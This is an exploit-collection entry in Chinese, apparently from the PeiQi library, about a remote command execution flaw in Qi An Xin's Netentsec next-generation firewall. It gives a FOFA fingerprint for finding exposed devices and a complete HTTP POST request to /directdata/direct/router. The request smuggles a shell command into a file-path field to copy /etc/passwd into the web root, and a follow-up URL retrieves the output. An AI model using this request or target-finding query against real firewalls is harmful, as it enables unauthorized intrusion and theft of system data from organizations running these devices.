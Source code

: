 ```yaml
---
title: 网康下一代防火墙 RCE
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - 奇安信
---
```


# 网康下一代防火墙 RCE

## 漏洞描述

奇安信 网康下一代防火墙存在远程命令执行，通过漏洞攻击者可以获取服务器权限

## 漏洞影响

> [!NOTE]
>
> 奇安信 网康下一代防火墙

## FOFA

> [!NOTE]
>
> app="网康科技-下一代防火墙"

## 漏洞复现

登录页面如下

![](/img/20210924015350214323.png)

发送如下请求包

```
POST /directdata/direct/router HTTP/1.1
Host: XXX.XXX.XXX.XXX
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_cmd.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}

```

再请求获取命令执行结果

```
http://xxx.xxx.xxx.xxxx/test_cmd.txt
```

![](/img/20210924015350604821.png)

## Goby & POC

![](/img/20210924015351918517.png)